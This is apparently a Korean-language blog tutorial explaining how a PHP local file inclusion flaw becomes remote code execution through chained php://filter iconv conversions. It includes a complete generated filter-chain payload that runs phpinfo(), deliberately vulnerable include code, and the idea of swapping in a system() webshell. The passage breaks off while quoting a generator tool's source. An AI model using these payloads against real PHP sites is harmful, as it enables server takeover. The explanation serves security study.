

## lfi2rce via php filter Analysis

### TL;DR

> PHP에서 `include`, `require`와 같은 파일 로드 함수를 사용할때 발생하는 LFI 취약점에서 php filter chain을 이용해 RCE(Remote Code Execute)까지 트리거하는 방법과 원리를 다룹니다.

### Contents

1. LFI2RCE Vuln description, Background (PHP Filter chaining)
2. LFI2RCE Use cases and how to utilize it
3. LFI2RCE How to use, helpful tool
4. LFI2RCE Dive deeper into how techniques work
5. Analyzing PHP Filter Generator tool code
3. ...

### 1. LFI2RCE Vuln description, Background (PHP Filter chaining)

#### What is LFI2RCE?

PHP에서는 동적으로 PHP 파일을 경로로 불러와서 로드할 수 있는 함수가 존재합니다. 

`include`, `require`와 같은 함수들이 주로 사용되는데, 해당 함수를 통해 PHP 파일을 동적으로 불러올 수 있습니다.

해당 파일의 인자로 파일 경로를 받게 되는데, 만약 입력값에 대한 필터링이 존재하지 않으면, 아래와 같이 LFI 취약점이 발생하게 됩니다.

```php
$goodUserInput = "index.php";
$badUserInput = "../../../../var/www/html/admin/admin.php";

include($goodUserInput); // Load index.php
include($badUserInput); // Load admin admin.php (bad case)
```

`include`, `require`와 같은 함수는 파일명을 넣게 되면 해당 파일을 단순히 읽는것만이 아니라 PHP 코드일 경우 직접 실행이 가능합니다.

이를 이용하여 공격자가 만약 특정 WebShell 파일을 업로드하여 이를 `include`와 같은 함수에서 LFI 같은 취약점으로 PHP 코드를 실행하게 된다면 RCE 취약점까지 번질 수 있습니다.

예전까지는, 공격자가 특정 PHP WebShell 파일을 업로드 할 수 없거나, 서버 내부의 경로를 알 수 없다면 RCE는 트리거 할 수 없었습니다.

하지만 이번에 PHP Filter Chaining이라는 방법을 사용해 단순 LFI 취약점만 가지고, 특정 경로를 알지 못하더라도 RCE를 실행할 수 있는 방법이 공개되었습니다.

이와 같은 공격 기법을 LFI2RCE(LFI To RCE)라고 부르게 되었습니다.

#### Background && LFI2RCE Vuln Description (PHP Filter Chaining)

LFI2RCE가 발생하는 방식은 `include`, `require` 함수에서 인자로 PHP Filter를 사용할 수 있는점에서부터 파생되었습니다.

여기서 PHP Filter는 PHP에서 지원하는 다양한 기능을 사용할 수 있는 집합인데, 여기서 LFI2RCE에 핵심으로 사용되는 PHP Filter는 iconv 기능입니다.

지구 전세계에는 7000개가 넘는 매우 다양한 언어가 존재합니다.

이러한 모든 사람들이 인터넷과 같은 서비스를 사용하기 위해서는 그 나라에서 사용하는 언어로 번역이 되어야합니다.

기본적으로 ASCII 테이블을 알고 있지만, 한국어나 일본어, 중국어 등과 같은 언어는 단순한 ASCII 테이블로는 번역이 불가능하고 표현하는 것도 분명한 한계가 존재합니다.

그래서 특정 언어를 다양한 언어로 번역할 수 있도록 수많은 인코딩 테이블이 만들어지고 이를 사용하게 되었습니다, 이러한 수많은 인코딩 테이블을 저장하고 특정 인코딩을 다른 인코딩으로 변환 할 수 있도록 하는 iconv라는 리눅스 명령어가 만들어지게 되었습니다.

```sh
$ iconv -l
The following list contains all the coded character sets known.  This does
not necessarily mean that all combinations of these names can be used for
the FROM and TO command line parameters.  One coded character set can be
listed with several different names (aliases).

  437, 500, 500V1, 850, 851, 852, 855, 856, 857[...]
```

PHP에서는 이러한 리눅스의 iconv 명령어를 범용적으로 사용할 수 있도록 PHP Filter와 연결시키게 되었습니다, 덕분에 PHP Filter를 사용해서 리눅스의 iconv 명령어로 엑세스 할 수 있게 되었습니다.

```text
php://convert.iconv.<input-encoding>.<output-encoding> OR php://convert.iconv.<input-encoding>/<output-encoding>
```

> PHP iconv documentation ref : The convert.iconv.* filters are available, if iconv support is enabled, and their use is equivalent to processing all stream data with iconv(). These filters do not support parameters, but instead expect the input and output encodings to be given as part of the filter name, i.e. either as convert.iconv.<input-encoding>.<output-encoding> or convert.iconv.<input-encoding>/<output-encoding> (both notations are semantically equivalent).

이와 같은 PHP Filter는 `include`, `require` 함수의 인자로도 사용할 수 있습니다. 여기서 resource로 특정 파일 경로를 매핑해주게 된다면, 해당 파일을 읽어서 해당 파일 데이터를 인코딩한후 결과를 반환하게 됩니다.

```php
// /var/www/html/test.php
<?php 
    echo "hello world!";
?>

// /var/www/html/index.php
include("php://filter/convert.base64-encode/resource=../../../../var/www/html/test.php");

// result == PD9waHAKICAgIGVjaG8gImhlbGxvIHdvcmxkISI7Cj8+
```

여기서 위와 같이 단일 인코딩만 진행하는것이 아니라, 파이프 기호를 통해 인코딩 방식을 채이닝할 수 있습니댜.

```php
// /var/www/html/test.php
<?php 
    echo "hello world!";
?>

// /var/www/html/index.php
include("php://filter/convert.base64-encode|convert.base64-decode/resource=../../../../var/www/html/test.php");

// result == "run test.php"
```

그러면 PHP iconv filter를 체이닝하여 인코딩 결과가 기존 값이 아닌 새로운 WebShell 형식의 PHP 코드가 생성되게 한다면, 충분히 RCE가 가능할 것 입니다.

이를 연구하고 테스트했을때 결과적으로 인코딩 결과를 변형하여 WebShell 코드로 만드는 것을 성공하였고 LFI2RCE 개념이 증명되게 되었습니다.

### LFI2RCE Use cases and how to utilize it

LFI2RCE를 발생시키기 위한 조건은 굉장히 간단합니다.

1. 공격자의 입력이 `include`, `require` 함수의 인자로 그대로 들어가게 되고 LFI 취약점이 발생함

위 1가지 조건만 만족하게 된다면 어떤 상황에서든지 LFI2RCE 공격을 트리거 할 수 있습니다.

아래는 취약한 형식의 PHP 코드입니다.

```php
<?php
    $input = $_GET["filepath"];

    $include($input); // LFI2RCE Trigger!
?>
```

기존에는 LFI만 가능하고 RCE는 불가능하였겠지만, LFI2RCE 기법을 알고있는 상황에서는 충분히 RCE가 가능하게 됩니다.

해당 기법이 발견된지는 2021년부터 연구가 시작되어서, 2021~2022년 사이에 연구가 완료되었지만 해외에서는 많이 알려지고 한국에는 많이 알려지지 않았습니다.

그러다가 2022년 후반 ~ 2023년 초부터 본격적으로 해당 기법이 국내에서도 활성화되면서 각종 CTF에서 관련 문제가 많이 출제되게 되었고, 각종 보안기업에서도 주요 페치사항으로 도입되게 되었습니다.

해당 취약점이 발생하게 된다면 RCE가 발생하게 되어서 기업의 경우 모든 정보가 탈취되거나 제거될 수 있는 굉장히 파급력이 높아지게 됩니다.

만약에 권한설정까지 제대로 되어있지 않다면 거의 모든 시스템을 장악할수도 있습니다.

### LFI2RCE How to use, helpful tool

LFI2RCE를 직접적으로 실행하기 위해서는 먼저 PHP Filter Chain을 만들어서 인코딩하였을때 PHP WebShell 코드가 만들어지도록 해야합니다.

이러한 PHP Filter Chain Table을 직접적으로 구현하려면 인코딩 채인을 진행했을때 어떠한 값이 만들어야하는지 전부 알아야하기 때문에 굉장히 많은 시간이 걸리게 됩니다.

그래서 이를 미리 구현해놓고 원하는 문자에 맞는 PHP Filter Chain을 만들어주는 도구가 존재합니다.

Synacktiv에서 개발한 PHP Filter chain generator라는 도구를 사용하면, 원하는 문자를 얻을 수 있게 해주는 PHP Filter Chain을 생성해줍니다.

아래 레퍼런스에서 해당 도구를 직접적으로 실행해볼 수 있습니다.

    Tool Ref : https://github.com/synacktiv/php_filter_chain_generator

예를 들어, 해당 도구를 사용하여 "<?php phpinfo(); ?>"가 PHP Filter Chain으로 생성되는 페이로드는 아래와 같습니다.

```sh
$ python3 php_filter_chain_generator.py --chain '<?php phpinfo(); ?>  '
[+] The following gadget chain will generate the following code : <?php phpinfo(); ?>   (base64 value: PD9waHAgcGhwaW5mbygpOyA/PiAg)
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.DEC.UTF-16|convert.iconv.ISO8859-9.ISO_6937-2|convert.iconv.UTF16.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.UCS2.UTF-8|convert.iconv.CSISOLATIN6.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM891.CSUNICODE|convert.iconv.ISO8859-14.ISO6937|convert.iconv.BIG-FIVE.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.CP1163.CSA_T500|convert.iconv.UCS-2.MSCP949|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp
```

이러한 페이로드를 `include`, `require` 함수의 첫번째 인자에 넣어주면 실제로 phpinfo();가 실행된 결과를 볼 수 있습니다. 

```php
<?php
    $userInput = "php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.DEC.UTF-16|convert.iconv.ISO8859-9.ISO_6937-2|convert.iconv.UTF16.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.UCS2.UTF-8|convert.iconv.CSISOLATIN6.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM891.CSUNICODE|convert.iconv.ISO8859-14.ISO6937|convert.iconv.BIG-FIVE.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.CP1163.CSA_T500|convert.iconv.UCS-2.MSCP949|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp"

    include($userInput); // result == "print php info"
?>
```

해당 도구를 사용해 "<?php phpinfo(); ?>"가 아닌 "<?php system($_GET[0]) ?>" 문자를 PHP Filter Chain으로 생성하여 include 함수에 넣어주게 된다면 시스템 함수가 실행되서 원하는 Command 명령을 실행할 수 있을 것이고, RCE 트리거가 성공하게 됩니다.

위와 같은 특정 문자에 맞는 PHP Filter Chain을 생성하는 도구의 원리는 아래 색션에서 더 자세하게 다루도록 하겠습니다. 이번 색션에서는 해당 도구를 사용하면 원하는 PHP Filter Chain을 만들어내서 RCE까지 연계할 수 있다는 POC 정도로 축약하겠습니다.

### LFI2RCE Dive deeper into how techniques work

이제부터, LFI2RCE가 PHP Filter Chain으로 부터 어떻게 발생되고, 이렇게 원하는 문자가 생성되는 원리는 무엇인지 더 깊게 확인해보겠습니다.

먼저 iconv기능에서 저 자세하게 살펴보도록 하겠습니다. 

```text
php://convert.iconv.<input-encoding>.<output-encoding> OR php://convert.iconv.<input-encoding>/<output-encoding>
```

앞서 설명하였듯이 iconv는 php filter를 사용하게 된다면 리눅스 명령어인 iconv로 엑세스됩니다, 그리고 사용 방법은 <input-encoding>에 들어간 인코딩을 <output-encoding>으로 변형해서 출력해주게 됩니다.

#### Remove incompatible characters

iconv 인코딩을 통해 생성된 데이터에는 올바르게 인코딩이 된 문자도 분명 존재하겠지만, 다양한 인코딩이 체이닝되게 된다면 이에서 발생하는 쓰레기 문자나 호환되지 않는 정크 문자들도 존재하게 될 것입니다.

정크 문자나 쓰레기 문자를 제어하기 위해서는 base64를 사용할 수 있습니다.

base64를 사용하게 된다면 아래와 같은 경우를 유심하게 살펴보아야 합니다.

```php
// test.txt
aGVsbG8
//

<?php
    echo file_get_contents("php://filter/convert.base64-decode/resource=test.txt");

    // result == "hello"
?>

// test2.txt
@_>aGVsbG8
//

<?php
    echo file_get_contents("php://filter/convert.base64-decode/resource=test2.txt");

    // result == "hello"
?>
```

위와 같이 "@_>" 문자열을 앞에 추가할 경우 아래와 같이 base64 테이블에 존재하지 않는 문자를 디코드하려고했기 때문에 오류가 발생하거나 문제가 발생해야합니다.

{: width="100%" height="100%"}

하지만 "test2.txt"를 디코드한 결과를 보면 base64 테이블에 없는 문자를 디코드하려고 해도, 이를 그냥 디코딩해주는 것을 확인할 수 있습니다, 이는 PHP에서 오류가 발생해도 이를 무시한다는 것의 증명입니다.

그렇다면, base64를 사용하게 된다면 문제가 발생하는 문자도 그냥 무시하고 인코드/디코드를 진행하기 때문에 공격에서 배우 유용하게 사용될 수 있습니다.

그런데 이러한 PHP base64-decode에서 유일하게 오류가 발생하는 경우가 존재합니다, 특이하지만 아래의 예시를 통해 볼 수 있습니다.

```php
<?php
    echo base64_decode("aGV==sbG8");

    // result == "hello"
?>

// test2.txt
aGV==sbG8
//

<?php
    echo file_get_contents("php://filter/convert.base64-decode/resource=test2.txt");

    // result == "Warning: file_get_contents(): stream filter (convert.base64-decode): invalid byte sequence in Command line code on line 1"
?>
```

위와 같이 base64 문자 사이에 등호가 존재할 경우 PHP 내장 함수인 base64_decode함수는 정상적으로 디코딩을 수행하지만 PHP base64-decode Filter에서는 무슨 이유에서인지 오류를 발생시키고 디코딩을 수행하지 않습니다.

그래서 base64-decode를 수행하기 전에 사전에 등호를 제거하는 인코딩이 필요합니다, 현재까지 알려진 방법으로는 base64-encode 문자를 UTF7로 인코딩하는 방법입니다. UTF7 인코딩으로 문자를 변환하게 된다면 등호를 인식하지 못하고 정상적으로 디코딩을 진행합니다.

```php
// test2.txt
aGVsbG8==
//

<?php
    echo file_get_contents("php://filter/convert.iconv.UTF8.UTF7|convert.base64-decode/resource=test2.txt");

    // result == "hello���"
?>
```

등호 문제를 해결하였음으로 이제 PHP Filter Chain을 통해 특정 문자를 생성할 수 있습니다.

#### Use encode variations to generate desired characters

PHP Filter Chain을 이용해 특정 문자를 생성하기 위해서는 기본적으로 어떠한 초기 문자라도 일단 존재해야합니다.

다양한 인코딩 테이블 중 여기서 눈여겨볼 인코딩 테이블은 한국어 문자 인코딩(ISO-2022-KR)입니다. 해당 인코딩은 RFC:[RFC-1557]이라는 부분에 명시되어 있습니다.

아래는 [RFC-1557]의 문서중, 일부를 인용한 내용입니다.

```
It is assumed that the starting code of the message is ASCII.  ASCII
   and Korean characters can be distinguished by use of the shift
   function.  For example, the code SO will alert us that the upcoming
   bytes will be a Korean character as defined in KSC 5601.  To return
   to ASCII the SI code is used.

   Therefore, the escape sequence, shift function and character set used
   in a message are as follows:

           SO           KSC 5601
           SI           ASCII
           ESC $ ) C    Appears once in the beginning of a line
                            before any appearance of SO characters.
```

RFC 규약에 명시되어 있듯이 문자가 ISO-2022-KR(한국어 인코딩)으로 감지되기 위해서는 문자가 "ESC $) C"로 시작하여야한다는 규칙이 존재하는 것을 확인할 수 있습니다. 

일본어(ISO-2022-JP) 인코딩, 중국어(ISO-2022-CN) 인코딩 같은 다양한 인코딩 중에서 "왜" 굳이 ISO-2022-KR 인코딩만이 "ESC $) C"로 문자가 시작해야 하는 규칙이 있는지 알 수는 없습니다.

하지만 현재로써는 ISO-2022-KR 인코딩만이 문자 앞에 유일하게 "ESC $) C"와 같은 특수한 문자가 붙는 유일한 인코딩입니다.

아래는 문자 앞에 식별자로 붙는 인코딩 테이블만을 가져온 것 입니다.

```
1. ISO-2022-KR: \xb&)C
2. UTF16: \xff\xfe
3. UTF32: \xff\xfe\x00\x00
```

위에 명시된 3개의 인코딩만이 문자 앞에 식별자가 붙는 인코딩입니다. 문자 앞에 식별자가 무조건 붙는다는 말은 이를 초기 문자로 지정하고 다른 인코딩을 체이닝하여 원하는 문자를 만들 수 있다는 말이 됩니다.

인코딩을 변환하려면 거의 7000개가 넘는 인코딩을 직접 체인해보면서 어떤 문자가 만들어지는지 알아야합니다, 하지만 여기서 다루게되면 글이 너무나 길어짐으로 "b" 문자를 PHP Filter Chain으로 만드는 방법만 간단하게 확인해보겠습니다.
)
{: width="100%" height="100%"}

    사진 출처 : https://www.synacktiv.com/en/publications/php-filters-chain-what-is-it-and-how-to-use-it

위와 같이 ISO-2022-KR -> CP1399 -> USC4 -> UTF8 순서로 인코딩을 진행하게 되면 "b"라는 문자가 생성되게 됩니다, 하지만 여기서 문제가 발생합니다. "b"라는 문자는 성공적으로 추가되었지만. 기존에 있던 "START"라는 문자의 무결성이 깨지게 되었습니다.

이는 해당 Filter Chain은 안전하지 않다는 말에 대한 반증입니다. 즉, PHP Filter Chain을 만들때 단순히 원하는 문자가 생성된것만 볼게 아니라, 무결성이 유지되는지 확인해야합니다.

만약 무결성이 유지되지 않았다면 해당 Filter Chain은 결국 다른 문자를 또 추가하게 된다면 값이 망가져버립니다. 그럼으로 무결성이 유지되면서 원하는 문자가 Filter Chain으로 생성되도록 하는 방법이 필요합니다.

나중에 언급하겠지만 앞서 설명했던 도구(PHP Filter Chain Generator)에 Table에서는 체인이 무결성을 망가뜨리지 않고 원하는 문자를 생성시킵니다.

#### Using php://temp to access a valid path

이제 원하는 문자를 생성할 수 있는 방법이 존재하니 RCE를 수행할 수 있을것 같지만, 한가지 문재가 존재합니다.

LFI 취약점에서는 서버의 구조를 알 수 없기 때문에 PHP Filter resource 부분에 로드할 유효한 파일을 찾아야합니다.

해당 문제를 해결하기 위해서는 `php://temp`라는 것을 사용하면 쉽제 문제를 해결할 수 있습니다.

```
php://filter/convert.base64-decode/resource=php://temp
```

위와 같은 PHP filter에서 resource를 php://temp로 지정해주게 된다면, PHP에서 랜덤한 파일 이름의 temp 파일을 로드할 수 있게 해줍니다.

이는 실행시마다 파일 이름이 바뀌고 "/tmp/asdoVaidd"와 같은 랜덤한 파일명으로 tmp 파일을 생성하고 읽기/쓰기를 진행할 수 있습니다.

즉, resource에 들어갈 유효한 파일 경로를 알아내거나 추측할 필요가 없기 때문에 LFI2RCE가 최종적으로 발생할 수 있는 환경이 모두 구성되었습니다.

#### Final theorem on the principle of accrual

LFI2RCE가 발생하는 원리를 모두 정리해보면 아래와 같습니다.

1. `include`, `require` 등의 PHP 파일 로드 함수에서 LFI 취약점이 발생할 경우 RCE가 트리거 될 수 있음.
2. php filter에서 resource에 들어갈 로드 할 수 있는 유효한 경로의 파일 경로가 들어가야하는데, `php://temp`를 사용하게 되면 /tmp 경로의 랜덤한 파일명으로 읽기/쓰기 권한이 존재하는 파일을 생성해주기 때문에 이를 먼저 진행하여 경로를 설정함.
2. ISO-20222-KR 등과 같은 문자 앞에 붙는 특수한 식별 문자를 다양한 인코딩과 체이닝하여 원하는 문자를 생성할 수 있는 PHP Filter Chain을 만들어낼 수 있음. (Chain Table : PHP Filter Chain Generator Tool)
3. PHP Filter Chain에서 생성된 문자는 생성된 값도 나오지만 유효하지 않은 문자나 정크 문자가 만들어질 수 있음.
4. 여기서 base64 encoding 을 사용하고 base64-decode하게 된다면 유효하지 않는 문자가 존재하여도 오류를 무시하고 만들어진 쓰레기 문자를 지우기 때문에 원하는 문자만 가져올 수 있음.
5. 그런데 php filter의 base64-decode 같은 경우는 encode 문자에서 등호가 존재할 경우 이를 인식하지 못하고 문제가 발생하게 됨.
6. base64 문자를 UTF7로 변환한 후 base64-decode하게 되면 등호를 제거할 수 있음.
7. 최종적으로 생성된 PHP WebShell Code가 `include` 함수 등에서 사용되면 PHP코드임으로 바로 실행하기 때문에 RCE가 트리거 됨.

### Analyzing PHP Filter Generator tool code

앞서, Synacktiv에서 개발한 PHP Filter Chain Generator를 사용하면 원하는 문자를 생성하는 PHP Filter Chain을 만들 수 있다고 설명하였습니다. 

이번에는 해당 소스코드를 분석해보면서 어떻게 PHP Filter Chain이 생성되는지 알아보겠습니다.

```python
#!/usr/bin/env python3
import argparse
import base64
import re

# - Useful infos -
# https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-php-filters
# https://github.com/wupco/PHP_INCLUDE_TO_SHELL_CHAR_DICT
# https://gist.github.com/loknop/b27422d355ea1fd0d90d6dbc1e278d4d

